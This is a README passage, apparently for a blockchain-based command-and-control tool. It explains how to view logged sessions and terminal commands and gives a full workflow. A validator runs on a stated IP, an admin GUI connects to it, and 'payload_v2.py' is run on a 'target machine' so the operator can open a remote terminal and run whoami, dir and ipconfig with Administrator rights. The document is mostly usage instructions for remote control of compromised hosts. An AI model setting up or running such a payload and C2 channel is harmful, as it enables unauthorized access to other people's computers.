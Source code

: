 
### Blockchain Tab

**See the blockchain in action!**

**Click "🔄 Refresh"** to see:
- Chain length
- Pending transactions
- Chain validity
- Recent blocks with all transactions

**You can see:**
- Registration transactions
- Heartbeat transactions
- Session open/close
- Terminal commands
- Command outputs

---

## 🎮 Complete Workflow Example

### Scenario: Execute commands on a remote Windows machine

**Terminal 1 (Validator):**
```cmd
python blockchain_validator.py
# Keep running, note IP: 38.89.139.10:5000
```

**Terminal 2 (Admin GUI):**
```cmd
python admin_gui_v2.py
# Enter: localhost:5000
# GUI opens
```

**Target Machine:**
```cmd
# Edit payload_v2.py, set BLOCKCHAIN_NODE = "38.89.139.10:5000"
python payload_v2.py
# Keep running
```

**In Admin GUI:**
1. **Targets tab** → Click "Refresh" → See target
2. Select target → Click "Open Session"
3. **Terminal tab** → Click "Create Terminal"
4. Type: `whoami` → Press Enter
5. See output: `gil-w25\Administrator`
6. Type: `dir` → Press Enter
7. See directory listing
8. Type: `ipconfig` → Press Enter
9. See network configuration
